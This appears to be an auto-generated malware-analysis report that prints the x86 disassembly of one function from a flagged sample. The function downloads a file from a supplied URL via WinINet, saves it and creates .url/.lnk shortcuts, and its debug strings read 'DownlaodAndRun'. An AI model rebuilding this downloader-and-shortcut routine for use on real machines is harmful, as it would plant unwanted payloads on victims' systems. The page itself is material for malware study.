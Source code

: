 ```yaml
---
layout: post
title:  "fcn.0040128f @ de21a548b66aa6c0b17491b6a31e14fa"
date:   2021-09-10 15:52:19 +0300
categories: report
index: false
---
```


# Generic Information
- **Function:** fcn.0040128f
- **Origin (md5):** de21a548b66aa6c0b17491b6a31e14fa
- **VirusTotal:** [virustotal.com/gui/file/de21a548b66aa6c0b17491b6a31e14fa][virustotal_ref]

# Code Tags
<span class="tag" id="FILE">FILE</span>
<span class="tag" id="HTTP">HTTP</span>


# Estimated Behaviour
<ul><li class="bhv-desc" id="na">Not Available :(</li></ul>

# Similar Functions
<script type="text/javascript" src="https://www.gstatic.com/charts/loader.js"></script>
<script type="text/javascript">

    google.charts.load('current', {'packages':['corechart']});
    google.charts.setOnLoadCallback(drawChart);

    function drawChart() {
    var data = new google.visualization.DataTable();
        data.addColumn('number', 'X');
        data.addColumn('number', 'Y');
        data.addColumn({type: 'string', role: 'tooltip', 'p': {'html': true}});
        data.addColumn({'type': 'string', 'role': 'style'});
        
        data.addRows([
    [0, 0, '<b><a href="/report/fcn.0040128f@de21a548b66aa6c0b17491b6a31e14fa">fcn.0040128f</a><br>@de21a548b66aa6c0b17491b6a31e14fa</b><br>', 'point { fill-color: #e0440e; }'],

        ]);

    var options = {
        title: 'Similarity Plot',
        legend: 'none',
        colors: ['#dedbd9', '#e6693e', '#ec8f6e', '#f3b49f', '#f6c7b6'],
        tooltip: {isHtml: true, trigger: 'both'},
        explorer: {
        actions: ["dragToZoom", "rightClickToReset"],
        },
        chartArea: {
        width: '80%',
        height: '80%'
        },
        width: '100%',
        height: '100%'
    };

    var chart = new google.visualization.ScatterChart(document.getElementById('chart_div'));

    chart.draw(data, options);
    }
    
</script>


<div id="chart_div" style="width: 100%px; height: 100%;"></div>

# Disassembled Code
{% highlight nasm %}

jmp 0x40469c
push ebp
lea ebp, [esp-0x20c]
sub esp, 0x20c
push 0xffffffffffffffff
push 0x43a28f
mov eax, dword
push eax
mov eax, 0x402c
call fcn.0040cf10
mov eax, dword[0x4481b0]
xor eax, ebp
mov dword[ebp+0x208], eax
push ebx
push esi
push edi
push eax
lea eax, [ebp-0xc]
mov dword
mov eax, dword[ebp+0x214]
mov ecx, dword[eax-0xc]
xor ebx, ebx
cmp ecx, ebx
mov dword[ebp-4], 4
jne 0x404739
lea ecx, [eax-0x10]
call fcn.00401050
mov ecx, dword[ebp+0x218]
add ecx, 0xfffffff0
call fcn.00401050
mov ecx, dword[ebp+0x21c]
add ecx, 0xfffffff0
call fcn.00401050
mov ecx, dword[ebp+0x220]
add ecx, 0xfffffff0
call fcn.00401050
mov ecx, dword[ebp+0x224]
add ecx, 0xfffffff0
call fcn.00401050
xor eax, eax
jmp 0x404b75
push eax
lea eax, [ebp-0x38]
push eax
call fcn.0040145b
pop ecx
pop ecx
push 0x4498ac
lea ecx, [ebp-0x14]
mov byte[ebp-4], 5
call fcn.004014a1
lea eax, [ebp-0x1c]
push eax
mov byte[ebp-4], 6
call fcn.00401483
pop ecx
push eax
lea ecx, [ebp-0x14]
mov byte[ebp-4], 7
call fcn.00401069
mov ecx, dword[ebp-0x1c]
add ecx, 0xfffffff0
mov byte[ebp-4], 6
call fcn.00401050
mov esi, 0x104
push esi
lea ecx, [ebp-0x14]
call fcn.00401393
push eax
call dword[sym.imp.SHLWAPI.dll_PathRemoveFileSpecW]
push 0xffffffffffffffff
lea ecx, [ebp-0x14]
call fcn.00401532
push str.Episode
push esi
lea ecx, [ebp-0x14]
call fcn.00401393
mov edi, dword[sym.imp.SHLWAPI.dll_PathAppendW]
push eax
call edi
push 0xffffffffffffffff
lea ecx, [ebp-0x14]
call fcn.00401532
push dword[ebp-0x14]
call dword[sym.imp.SHLWAPI.dll_PathFileExistsW]
test eax, eax
jne 0x4047ef
push ebx
push dword[ebp-0x14]
push ebx
call dword[sym.imp.SHELL32.dll_SHCreateDirectoryExW]
push dword[ebp-0x14]
call fcn.0040170d
pop ecx
push 0x80
push dword[ebp-0x14]
call dword[sym.imp.KERNEL32.dll_SetFileAttributesW]
lea eax, [ebp-0x14]
push eax
lea ecx, [ebp-0x18]
call fcn.004010be
push dword[ebp+0x21c]
lea ecx, [ebp-0x18]
push esi
mov byte[ebp-4], 8
call fcn.00401393
push eax
call edi
push 0xffffffffffffffff
lea ecx, [ebp-0x18]
call fcn.00401532
lea eax, [ebp-0x14]
push eax
lea ecx, [ebp-0x24]
call fcn.004010be
push str._bind_777
lea eax, [ebp+0x220]
push eax
lea eax, [ebp-0x1c]
push eax
mov byte[ebp-4], 9
call fcn.00401005
add esp, 0xc
push dword[eax]
lea ecx, [ebp-0x24]
push esi
mov byte[ebp-4], 0xa
call fcn.00401393
push eax
call edi
mov ecx, dword[ebp-0x1c]
add ecx, 0xfffffff0
mov byte[ebp-4], 9
call fcn.00401050
push 0xffffffffffffffff
lea ecx, [ebp-0x24]
call fcn.00401532
push str..url
lea ecx, [ebp-0x24]
call fcn.004013ed
push dword[ebp-0x18]
mov esi, dword[sym.imp.KERNEL32.dll_DeleteFileW]
mov byte[ebp-0xd], bl
call esi
push ebx
push ebx
push ebx
push ebx
push str.DownlaodAndCreateLink
call dword[sym.imp.WININET.dll_InternetOpenW]
cmp eax, ebx
mov dword[ebp-0x30], eax
je 0x4049c3
push ebx
push 0x80000000
push ebx
push ebx
push dword[ebp+0x214]
push eax
call dword[sym.imp.WININET.dll_InternetOpenUrlW]
cmp eax, ebx
mov dword[ebp-0x20], eax
je 0x4049a9
mov edi, dword[sym.imp.WININET.dll_HttpQueryInfoW]
push ebx
lea ecx, [ebp-0x34]
push ecx
lea ecx, [ebp-0x1c]
push ecx
push 0x20000005
push eax
mov dword[ebp-0x1c], ebx
mov dword[ebp-0x34], 4
call edi
test eax, eax
jne 0x4048f7
push str._Statistics::DownlaodAndCreateLink__DownlaodAndRun:HttpQueryInfo_Error.
call dword[sym.imp.KERNEL32.dll_OutputDebugStringW]
mov byte[ebp-0xd], 1
push ebx
lea eax, [ebp-0x34]
push eax
lea eax, [ebp-0x2c]
push eax
push 0x20000013
push dword[ebp-0x20]
mov dword[ebp-0x2c], ebx
call edi
test eax, eax
jne 0x404915
mov byte[ebp-0xd], 1
cmp dword[ebp-0x2c], 0xc8
je 0x404922
mov byte[ebp-0xd], 1
cmp byte[ebp-0xd], bl
jne 0x40499e
cmp dword[ebp-0x1c], ebx
je 0x40499e
push 0x43f974
push dword[ebp-0x18]
call fcn.0040cea7
mov edi, eax
cmp edi, ebx
pop ecx
pop ecx
jne 0x404952
push str._Statistics::DownlaodAndCreateLink__DownlaodAndRun:File_Create_Error
call dword[sym.imp.KERNEL32.dll_OutputDebugStringW]
mov byte[ebp-0xd], 1
jmp 0x40499e
mov dword[ebp-0x28], ebx
lea eax, [ebp-0x28]
push eax
push 0x4000
lea eax, [ebp-0x4038]
push eax
push dword[ebp-0x20]
call dword[sym.imp.WININET.dll_InternetReadFile]
cmp eax, ebx
je 0x404993
cmp dword[ebp-0x28], ebx
je 0x404997
push edi
push dword[ebp-0x28]
lea eax, [ebp-0x4038]
push 1
push eax
call fcn.0040cd5f
add esp, 0x10
cmp dword[ebp-0x28], ebx
jne 0x404955
jmp 0x404997
mov byte[ebp-0xd], 1
push edi
call fcn.0040cb84
pop ecx
push dword[ebp-0x20]
call dword[sym.imp.WININET.dll_InternetCloseHandle]
jmp 0x4049b8
push str._Statistics::DownlaodAndCreateLink__DownlaodAndRun:InternetOpenUrl_Error
call dword[sym.imp.KERNEL32.dll_OutputDebugStringW]
mov byte[ebp-0xd], 1
push dword[ebp-0x30]
call dword[sym.imp.WININET.dll_InternetCloseHandle]
jmp 0x4049d2
push 0x43fa60
call dword[sym.imp.KERNEL32.dll_OutputDebugStringW]
mov byte[ebp-0xd], 1
cmp byte[ebp-0xd], bl
mov edi, dword[ebp-0x24]
jne 0x404afe
push ebx
call dword[sym.imp.ole32.dll_CoInitialize]
cmp eax, ebx
jge 0x404a22
mov ecx, edi
add ecx, 0xfffffff0
call fcn.00401050
mov ecx, dword[ebp-0x18]
add ecx, 0xfffffff0
call fcn.00401050
mov ecx, dword[ebp-0x14]
add ecx, 0xfffffff0
call fcn.00401050
mov ecx, dword[ebp-0x38]
add ecx, 0xfffffff0
call fcn.00401050
mov ecx, dword[ebp+0x214]
add ecx, 0xfffffff0
jmp 0x4046f5
push edi
call esi
push dword[ebp+0x224]
push dword[ebp+0x218]
push dword[ebp-0x18]
push edi
call fcn.0040156e
add esp, 0x10
cmp eax, ebx
je 0x404af3
lea eax, [ebp]
push eax
call fcn.00401429
pop ecx
lea eax, [ebp]
push eax
lea ecx, [ebp-0x2c]
call fcn.004013e8
push 0x43fa5c
push eax
lea eax, [ebp-0x1c]
push eax
mov byte[ebp-4], 0xb
call fcn.00401005
lea ecx, [ebp+0x220]
push ecx
push eax
lea eax, [ebp-0x30]
push eax
mov byte[ebp-4], 0xc
call fcn.004013a2
push str..lnk
push eax
lea eax, [ebp-0x20]
push eax
mov byte[ebp-4], 0xd
call fcn.00401005
add esp, 0x24
mov ecx, dword[ebp-0x30]
add ecx, 0xfffffff0
call fcn.00401050
mov ecx, dword[ebp-0x1c]
add ecx, 0xfffffff0
call fcn.00401050
mov ecx, dword[ebp-0x2c]
add ecx, 0xfffffff0
mov byte[ebp-4], 0x11
call fcn.00401050
push dword[ebp-0x20]
call esi
push ebx
push dword[ebp+0x224]
push edi
push dword[ebp-0x18]
push ebx
push dword[ebp-0x20]
call fcn.00401357
add esp, 0x18
test eax, eax
jne 0x404ae6
push dword[ebp-0x18]
call esi
push edi
call esi
mov ecx, dword[ebp-0x20]
add ecx, 0xfffffff0
call fcn.00401050
jmp 0x404af8
push dword[ebp-0x18]
call esi
call dword[sym.imp.ole32.dll_CoUninitialize]
lea ecx, [edi-0x10]
call fcn.00401050
mov ecx, dword[ebp-0x18]
add ecx, 0xfffffff0
call fcn.00401050
mov ecx, dword[ebp-0x14]
add ecx, 0xfffffff0
call fcn.00401050
mov ecx, dword[ebp-0x38]
add ecx, 0xfffffff0
call fcn.00401050
mov ecx, dword[ebp+0x214]
add ecx, 0xfffffff0
call fcn.00401050
mov ecx, dword[ebp+0x218]
add ecx, 0xfffffff0
call fcn.00401050
mov ecx, dword[ebp+0x21c]
add ecx, 0xfffffff0
call fcn.00401050
mov ecx, dword[ebp+0x220]
add ecx, 0xfffffff0
call fcn.00401050
mov ecx, dword[ebp+0x224]
add ecx, 0xfffffff0
call fcn.00401050
xor eax, eax
cmp byte[ebp-0xd], bl
sete al
mov ecx, dword[ebp-0xc]
mov dword
pop ecx
pop edi
pop esi
pop ebx
mov ecx, dword[ebp+0x208]
xor ecx, ebp
call fcn.0040b32a
add ebp, 0x20c
leave
ret 0x14

{% endhighlight %}

[virustotal_ref]: https://www.virustotal.com/gui/file/de21a548b66aa6c0b17491b6a31e14fa
